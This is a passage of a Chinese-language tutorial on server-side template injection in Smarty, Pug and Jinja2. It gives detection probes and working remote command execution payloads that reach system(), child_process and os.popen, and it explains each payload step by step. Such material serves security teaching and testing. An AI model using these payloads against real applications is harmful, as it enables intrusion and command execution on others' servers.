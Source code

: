 通常可以通过发送一系列包含不同语法特征的数学运算或字符串操作的 Payload 来缩小范围或确定模板引擎。

### 特定模板引擎的利用

#### PHP - Smarty

*   **简介:** Smarty 是一个流行的 PHP 模板引擎，旨在将表示层（HTML）与应用程序逻辑（PHP）分离。
*   **漏洞点:** 如果配置不当（特别是允许使用 `{php}` 标签或通过插件/修饰符执行任意 PHP 函数），Smarty 可能容易受到 SSTI 攻击。默认配置通常是安全的。
*   **确认/检测:**
    *   注入简单的 Smarty 标签，如 `{'Hello'|upper}`。如果输出为 `HELLO`，则确认是 Smarty。
    *   尝试 `{self::version}` 查看 Smarty 版本。
*   **利用 (假设允许执行 PHP 函数):**
    *   **Payload:** `{system("id")}` 或 `{exec("whoami")}`
    *   **原理:** 直接利用 Smarty 模板调用 PHP 的 `system()` 或 `exec()` 函数执行操作系统命令。
    *   **前提:** Smarty 的安全设置必须允许直接调用这些 PHP 函数，或者存在允许间接调用的自定义函数/修饰符。现代 Smarty 版本默认禁用 `{php}` 标签，并提供了安全模式。

#### Node.js - Pug (原名 Jade)

*   **简介:** Pug 是 Node.js 生态中广泛使用的高性能模板引擎，以其简洁的缩进式语法和强大的功能（条件、循环、Mixin）著称。
*   **漏洞点:** Pug 允许通过 `#{}` 或 `!{}` 语法在模板中直接嵌入和执行 JavaScript 代码。如果用户输入未经清理就被插入到这些插值表达式中，或者插入到模板结构本身，就可能导致任意 JavaScript 执行，进而可能调用 Node.js API 执行系统命令。
*   **确认/检测:**
    *   注入 `#{7*7}`。如果输出为 `49`，则确认是 Pug。
*   **利用 (执行系统命令):**
    *   **Payload:**
        ```pug
        #{process.mainModule.require('child_process').spawnSync('id').stdout}
        ```
        或者带参数的（推荐方式）：
        ```pug
        #{process.mainModule.require('child_process').spawnSync('ls', ['-lah']).stdout}
        ```
    *   **Payload 分解:**
        1.  `process`: 访问 Node.js 的全局 `process` 对象。
        2.  `mainModule`: (可能因 Node 版本而异，有时需用 `process.mainModule` 或其他方式找到主模块) 访问应用程序的主模块。
        3.  `require('child_process')`: 动态加载 Node.js 的 `child_process` 模块，该模块用于创建子进程。
        4.  `spawnSync('command', [args])`: 同步执行指定的系统命令 (`'id'` 或 `'ls'`)，并将参数 (`['-lah']`) 作为数组传递。同步执行意味着 Node.js 会等待命令完成。
        5.  `.stdout`: 获取命令执行后的标准输出内容。
    *   **重要：命令与参数分离 (`spawnSync` / `execSync` 等):**
        *   **错误用法:** `spawnSync('ls -lah')`。将整个命令和参数作为一个字符串传递，`spawnSync` 会尝试执行名为 "ls -lah" 的文件，而不是带参数的 `ls` 命令，导致执行失败。
        *   **正确用法:** `spawnSync('ls', ['-lah'])`。将命令 (`'ls'`) 和参数数组 (`['-lah']`) 分开传递。这是 Node.js `child_process` 模块推荐的安全做法，有助于防止命令注入（Shell Injection）漏洞。

#### Python - Jinja2

*   **简介:** Jinja2 是 Python Web 开发（尤其是 Flask 和 Django 框架）中最流行的模板引擎之一，以其功能强大、速度快和类似 Python 的语法而闻名。
*   **漏洞点:** Jinja2 允许在 `{{ }}` 表达式中执行 Python 代码片段。如果用户输入未经清理就被直接放入模板中，攻击者可以构造恶意表达式来访问 Python 的内置函数、对象和模块，最终可能导致任意代码执行。漏洞通常源于开发者如何使用 Jinja2，而非引擎本身。
*   **确认/检测:**
    *   注入 `{{7*7}}`。如果输出为 `49`，则可能是 Jinja2 (或其他支持类似语法的引擎，需结合其他 payload 进一步区分，如 `{{7*'7'}}` 输出 `7777777`)。
*   **利用 (执行系统命令):**
    *   **Payload (常见的基于对象遍历):**
        ```jinja2
        {{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
        ```
        或者更通用的（通过查找 `subprocess.Popen` 等）：
        ```jinja2
        {{ ''.__class__.__mro__[1].__subclasses__()[XYZ].__init__.__globals__['__builtins__']['__import__']('subprocess').check_output(['ls','-lah']) }}
        ```